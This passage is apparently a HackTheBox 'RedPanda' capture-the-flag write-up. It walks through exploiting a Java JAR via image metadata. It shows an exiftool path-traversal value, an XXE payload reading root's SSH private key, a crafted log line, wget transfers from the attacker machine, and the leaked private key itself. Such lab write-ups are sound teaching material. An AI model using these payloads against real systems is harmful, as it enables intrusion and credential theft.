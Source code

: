 
## Exploiting JAR file (XXE Involved)
1. Create malicious image file w/ artist metadata
	```
	# Use any random image
	┌──(root💀kali)-[~/htb/redpanda/10.10.11.170/loot]
	└─# exiftool -Artist="../../../../../../../tmp/exploit" exploit.jpg
	```
2. Verify metadata (`Artist`) exists
	```
	┌──(root💀kali)-[~/htb/redpanda/10.10.11.170/loot]
	└─# exiftool exploit.jpg | grep Artist
	Artist                          : ../../../../../../../tmp/exploit
	```
3. Create malicious XML file (`exploit_creds.xml`)
	```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
	   <!ELEMENT foo ANY >
	   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
	<credits>
	  <foo>&xxe;</foo>
	</credits>
	```
4. Create malicious `redpanda.log`
	```plaintext
	123||a||a||/../../../../../../tmp/exploit.jpg
	```
5. Transfer files to `redpanda.htb`
	```
	wget 10.10.14.6/exploit_creds.xml
	wget 10.10.14.6/exploit.jpg
	wget 10.10.14.6/redpanda.log -O /opt/panda_search/redpanda.log
	```
6. Wait for cronjob to execute, allowing us to obtain `root`'s private key
	```
	woodenk@redpanda:/tmp$ cat exploit_creds.xml
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo>
	<credits>
	  <foo>-----BEGIN OPENSSH PRIVATE KEY-----
	b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
	QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
	ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
	AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
	RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
	-----END OPENSSH PRIVATE KEY-----</foo>
	</credits>
	```
7. Demo - Exploiting JAR file
	![](VmV8zYPTs1.gif)

